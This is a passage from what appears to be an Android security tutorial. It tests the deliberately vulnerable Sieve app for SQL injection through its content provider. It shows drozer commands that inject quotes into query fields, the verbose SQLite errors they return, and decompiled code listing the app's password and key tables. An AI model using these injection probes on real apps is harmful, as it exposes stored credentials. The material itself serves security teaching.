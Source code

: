 #### Example usage in code:

```java
String[] projection = { "username", "password" };
String selection = "username = ?";
String[] selectionArgs = { "alice" };
Cursor cursor = getContentResolver().query(

// Uri.parse converts a String representation of a URI into a Uri object
Uri.parse("content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/"),
    projection,
    selection,
    selectionArgs,
    "username ASC"
);

```


Now, back to our app:
It is simple to test for SQL injection by manipulating the projection and selection fields that are passed to the content provider:


```txt
dz> run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/ --projection "'"
Attempting to run shell module
Exception occured: unrecognized token: "' FROM Passwords" (code 1 SQLITE_ERROR): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/ --selection "'"
Attempting to run shell module
Exception occured: unrecognized token: "')" (code 1 SQLITE_ERROR): , while compiling: SELECT * FROM Passwords WHERE (')
```

Android returns a very verbose error message, showing the entire query that it tried to execute.

Now, let's try to reverse the application and understand the code:
We are looking for Uri `content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/`

So, in `jadx` I searched for this query. I got that there is a `PWTable` class.

```java
package com.withsecure.example.sieve.database;  
  
import android.provider.BaseColumns;  
  
/* loaded from: classes.dex */  
public class PWTable implements BaseColumns {  
    public static final String BLOB_TYPE = " BLOB";  
    public static final String COLUMN_NAME_EMAIL = "email";  
    public static final String COLUMN_NAME_PASSWORD = "password";  
    public static final String COLUMN_NAME_SERVICE = "service";  
    public static final String COLUMN_NAME_USERNAME = "username";  
    public static final String COMMA_SEP = ",";  
    public static final String KEY_COLUMN_NAME_MAIN = "Password";  
    public static final String KEY_COLUMN_NAME_SHORT = "pin";  
    public static final String KEY_SQL_CREATE_ENTRIES = "CREATE TABLE Key (Password TEXT PRIMARY KEY,pin TEXT )";  
    public static final String KEY_TABLE_NAME = "Key";  
    public static final String SQL_CREATE_ENTRIES = "CREATE TABLE Passwords (_id INTEGER PRIMARY KEY,service TEXT,username TEXT,password BLOB,email )";  
    public static final String SQL_DELETE_ENTRIES = "DROP TABLE IF EXISTS Passwords";  
    public static final String TABLE_NAME = "Passwords";  
```